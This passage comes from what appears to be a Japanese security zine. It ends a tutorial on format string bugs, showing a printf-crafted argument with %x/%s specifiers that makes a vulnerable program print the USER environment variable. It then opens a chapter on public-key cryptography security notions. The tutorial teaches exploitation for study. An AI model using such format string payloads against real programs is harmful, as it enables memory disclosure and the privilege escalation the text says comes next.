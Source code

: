 　USERのところを出力してみましょう。アドレスは0xbffffb83であることがわか
ります。これに15を加算した0xbffffb98が渡すべき引数です。リトルエンディア
ンを考慮し、下位2文字から順に記述します。8文字目の変換指定文字に%sを指定
すれば、丁度引数の開始アドレスの中身（\x98\xfb\xff\xbf）に格納されている
アドレスの内容を表示することができます。

```
defolos@glazheim:\~/Desktop$ ./a.out \`printf "\x98\xfb\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%s
Good:
\uffff\uffff\uffff%x.%x.%x.%x.%x.%x.%x.%s
Bad:
\uffff\uffff\uffffbffff530.0.4001670c.2.4.0.0.USER\=defolos
[DEBUG] test_val @ 0x08049654 \= -72 0xffffffb8
```

　上手く出力されていますね。15を加算しなければいけない理由はよくわからな
いのですが、実行ファイルの名前の長さが増えると環境変数のアドレスは2バイト
小さい値を指定しなければ参照できないようです。このようにして任意のアドレ
スの内容を表示することができるのです。


### 0x05 おわりに

　今回みてきたように、フォーマットストリングバグを応用すればメモリ内の値
をのぞき見ることができます。しかし、ハッキングの目的は本質的にメモリ内容
を書き換えることにあります。関数の戻りアドレスが格納されているメモリ番地
をペイロードの格納されているメモリ番地に書き換えることでプログラムの流れ
を変えることができ、権限の奪取が行えるのです。ゆえに、任意にメモリ内の書
き換えが行えないバグは利用価値が低いと言えます。実は、フォーマットストリ
ングバグは任意にメモリを書き換えることのできるバグなのです。その手法は次
回お話しすることとしますので、お楽しみに。
　それではまたお会いしましょう。



***

## 第5章: 基礎暗号学講座・第15回 〜公開鍵暗号の安全性の強弱〜

著者：IPUSIRON

***


### 0x01 はじめに

　WB39では、仮定の強弱について解説した。今回は安全性の強弱について解説す
る。
　なぜ安全性の強弱の前に仮定の強弱を解説したのかと言うと、仮定と安全性は
密接な関係を持つからである。例えば、強い仮定を前提にすれば、強い安全性を
持たせやすいことが一般的に言える。
　仮定と安全性のどちらを重視するのかは暗号設計者や暗号実装者の選択に依存
するが、どちらの立場であっても理想的な暗号とは、弱い仮定を前提にして、強
い安全性を持つものである。

